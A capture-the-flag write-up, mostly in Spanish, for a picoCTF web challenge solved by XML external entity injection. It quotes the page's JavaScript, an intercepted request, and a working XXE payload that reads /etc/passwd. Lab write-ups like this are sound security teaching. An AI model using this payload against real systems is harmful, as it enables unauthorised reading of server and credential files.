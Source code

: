 
## Descripcion

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Hints

XML external entity Injection

## Solucion

Lo primero que tenemos que hacer es hacer un analisis a la pagina. No hay mucho para encontrar, si buscamos en el codigo fuente encontramos lo siguiente:

```
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```

```
document.querySelectorAll('.detailForm').forEach(item => {
    item.addEventListener("submit", function(e) {
        checkDetails(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
        e.preventDefault();
    });
});
function checkDetails(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t)
                : "Could not find the details. Better luck next time :("
            )
            .then(res => document.getElementById("detailsResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```

Procedo abrir burpsuite y comienzo a interceptar. Hago click en `detalles` para recibir la peticion. Analizamos la peticion para armar el payload:

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:60199
Content-Length: 61
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:60199
Referer: http://saturn.picoctf.net:60199/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>

```

Armamos el payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>

```

![[images/flagSOAP.png]]
## Referencias
